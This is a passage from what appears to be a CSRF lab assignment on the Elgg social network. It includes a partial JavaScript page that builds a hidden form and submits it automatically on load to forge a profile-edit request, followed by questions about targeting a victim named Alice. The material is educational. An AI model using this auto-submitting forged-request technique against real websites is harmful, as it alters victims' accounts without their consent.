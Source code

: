 ```html
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}


// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
```

In Line, the value `2` sets the access level of a field to public. This is needed, otherwise, the access level will be set by default to private, so others cannot see this field. It should be noted that when copy-and-pasting the above code from a PDF file, the single quote character in the program may become something else (but still looks like a single quote). That will cause syntax errors. Replacing all the single quote symbols with the one typed from your keyboard will fix those errors.

## Questions

In addition to describing your attack in full detail, you also need to
answer the following questions in your report:

**Question 1**: The forged HTTP request needs Alice's user id (guid) to work properly. If Boby targets Alice specifically, before the attack, he can find ways to get Alice's user id. Boby does not know Alice's Elgg password, so he cannot log into Alice's account to get the information. Please describe how Boby can solve this problem.

**Question 2:** If Boby would like to launch the attack to anybody who visits his malicious web page. In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF attack to modify the victim's Elgg profile? Please explain.
